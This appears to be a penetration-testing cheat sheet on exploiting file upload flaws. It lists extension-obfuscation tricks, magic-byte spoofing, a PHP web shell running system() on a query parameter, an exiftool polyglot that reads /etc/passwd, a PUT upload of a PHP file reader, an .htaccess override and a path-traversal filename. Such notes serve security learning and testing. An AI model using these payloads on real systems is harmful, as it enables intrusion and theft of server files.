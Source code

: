 # File upload

{% hint style="warning" %}
Servers typically won't execute files unless they have been configured to do so. In some cases the contents of the file may still be served as plain text
{% endhint %}

## <mark style="color:yellow;">Flawed validation of FU</mark>

### <mark style="color:yellow;">**Content-Type**</mark>

<details>

<summary>multipart/form-data</summary>

When we upload binary files (like png) the content type multipart/form-data is preferred. The message body is split into separate parts for each of the form's inputs. Each part contains a `Content-Disposition` header and may also contain their own `Content-Type` header which tells the server the MIME type of the data that was submitted using this input

</details>

Change `Content-Type` to an allow MIME type. (e.g. `image/jpeg`)

### <mark style="color:yellow;">Blacklisted extensions</mark>

* Change extensions

```
.php
.php3
.php4
.php5
.phtml
.phar
```

* Obfuscating file extensions

```
exploit.pHp
exploit.php.jpg
exploit.php.
exploit%2Ephp
exploit.asp;.jpg
exploit.asp%00.jpg
exploit.p.phphp
```

### <mark style="color:yellow;">File content validation</mark>

More secure servers try to verify that the contents of the file actually match what is expected

#### (1) Magic number: certain file types may always contain a specific sequence of bytes in their header or footer

| File     | Hex Signature                       | ISO 8859-1   |
| -------- | ----------------------------------- | ------------ |
| PNG      | 89 50 4E 47 0D 0A 1A 0A             | ‰PNG␍␊␚␊     |
| JPG/JPEG | FF D8 FF EE                         | ÿØÿî         |
| JPG/JPEG | FF D8 FF E0                         | ÿØÿà         |
| JPG/JPEG | FF D8 FF E0 00 10 4A 46 49 46 00 01 | ÿØÿà␀␐JFIF␀␁ |
| PDF      | 25 50 44 46 2D                      | %PDF-        |

Payload example:

```php
ÿØÿî
<?php echo system($_GET['cmd']); ?>
```

**(2) Polyglot (on exiftool)**: verify certain intrinsic properties of an image, such as its dimensions.

Create a polyglot JPEG file containing malicious code within its metadata

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

This works if you can upload a php extension file. This works why you have a real image file (that bypass rescritions) but when you open the image it's executed as php script.

## <mark style="color:yellow;">Overriding server configuration</mark>

Many servers let developers create configuration files in individual directories to override or add to global settings. Web servers use these files when present, but they are not accessible via HTTP requests.

If the file extension is blacklisted, you might trick the server into mapping a custom file extension to an executable MIME type.

* Apache servers -> `.htaccess`
* Example: `AddType application/x-httpd-php .<EXTENSION>`

## <mark style="color:yellow;">PUT method</mark>

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

## <mark style="color:yellow;">**FU + PT**</mark>

One defense: prevent the server from executing scripts that slip through. Web servers use the filename field in `multipart/form-data` requests to determine the file's name and location.

\-> Change filename field combining path traversal

```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
```

## <mark style="color:yellow;">FU without RCE</mark>

If you can upload HTML files or SVG images, you can use tags to create stored XSS payloads. If the server parses XML-based files like `.doc` or `.xls`, it could be a vector for XXE injection attacks.

## <mark style="color:yellow;">FU + Race Conditions</mark>

Some websites upload files to the main filesystem and remove them if they fail validation. This is common in sites using anti-virus software to check for malware. During the short time the file exists on the server, an attacker could potentially execute it.

* Race conditions
* Difficult to detect

### <mark style="color:yellow;">Race conditions in URL-based file uploads</mark>

If a file is loaded into a temporary directory with a randomized name, it should be impossible for an attacker to exploit any race conditions.

* If the randomized directory name is generated using pseudo-random functions like PHP's `uniqid()`, it can potentially be brute-forced.
  * Try to extend the amount of time taken to process the file by uploading a larger file
* If it is processed in chunks, you can potentially take advantage of this by creating a malicious file with the payload at the start, followed by a large number of arbitrary padding bytes

